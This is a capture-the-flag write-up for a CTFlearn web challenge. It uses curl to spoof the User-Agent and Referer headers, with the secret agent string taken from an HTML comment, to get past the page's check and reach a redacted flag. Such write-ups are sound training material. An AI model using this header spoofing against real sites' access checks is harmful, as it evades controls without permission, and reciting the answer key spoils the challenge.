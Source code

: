 ### Don't Bump Your Head(er) 
https://ctflearn.com/challenge/109

## Decription
Try to bypass my security measure on this site! http://165.227.106.113/header.php

#  Solution
We need to bypass the security.Now let’s try to open the url given.

Curl is a great tool for transferring data from or to a server. It's also great to manipulate request headers. Manual page of curl can be found here. 
https://curl.se/docs/manpage.html

A curl request was done to the web page and got a response back as follow.
```console
    % curl http://165.227.106.113/header.php
    Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: curl/7.64.1
    <!-- Sup3rS3cr3tAg3nt  -->
```
So the curl command was constructed with a modified User-Agent as below.
```console
    curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php 
    Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
    <!-- Sup3rS3cr3tAg3nt  -->
```
The response above wanted the request traffic to be referred from a site called awesomesauce.com. So the curl command is further constructed to modify the referer in the header reqeust as below.
```console
    % curl -e 'awesomesauce.com' -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php
    Here is your flag: flag{redacted}
    <!-- Sup3rS3cr3tAg3nt  -->
```


Burpsuite can also be used in thi case

[Youtube video](https://www.youtube.com/watch?v=yIgEv4kMxuM)

